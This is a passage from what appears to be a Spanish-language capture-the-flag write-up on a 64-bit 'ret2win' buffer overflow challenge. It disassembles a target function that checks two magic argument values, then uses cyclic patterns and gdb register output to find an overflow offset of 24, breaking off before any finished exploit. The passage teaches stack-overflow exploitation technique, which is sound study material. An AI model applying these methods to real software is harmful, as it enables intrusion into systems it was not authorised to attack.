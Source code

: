 Vemos la función *hacked* (ya la vimos en el código fuente). Vamos a descompilarla:

```gdb-pwndbg
disassemble hacked
```
```x64
[...]
0x000000000040114a <+8>:	mov    QWORD PTR [rbp-0x8],rdi
0x000000000040114e <+12>:	mov    QWORD PTR [rbp-0x10],rsi
0x0000000000401152 <+16>:	movabs rax,0xdeadbeefdeadbeef
0x000000000040115c <+26>:	cmp    QWORD PTR [rbp-0x8],rax
0x0000000000401160 <+30>:	jne    0x401180 <hacked+62>
0x0000000000401162 <+32>:	movabs rax,0xc0debabec0debabe
0x000000000040116c <+42>:	cmp    QWORD PTR [rbp-0x10],rax
0x0000000000401170 <+46>:	jne    0x401180 <hacked+62>
[...]
```

Como podemos ver, los parámetros de la función (`rdi` y `rsi`) se guardan en el stack (en `rbp-0x8` y `rbp-0x10`, los *[]* quieren decir que son punteros, o sea que almacenan una dirección de memoria). Posteriormente, se comparan con una variable `rax`, que se asigna con los valores `0xdeadbeefdeadbeef` y  `0xc0debabec0debabe`.

Ahora no podremos hacer igual que con el binario de 32 bits (simplemente poner la dirección de retorno y los valores), debemos ver qué valores se almacenarán en dichos registros.

Comenzamos buscando cuándo se produce el *buffer overflow* con *cyclic*:

```bash
cyclic 100
```
```ret2win_params_64
Name:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Hi there, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
```gdb-pwndbg
[...]
*RBP  0x6161616661616165 ('eaaafaaa')
*RSP  0x7fffffffded8 ◂— 'gaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*RIP  0x4011d6 (register_name+70) ◂— ret
[...]
```

Si nos fijamos, el puntero de instrucción (`RIP`) no ha cambiado, ya que si tratamos de introducir una dirección de memoria inválida no la aceptará. Por eso, debemos insertar los valores en el puntero de pila (`RSP`), para encontrar el *offset* tomamos los primeros 4 valores y volvemos a utilizar *cyclic*:

```bash
cyclic -l gaaa
```
```cyclic
24
```
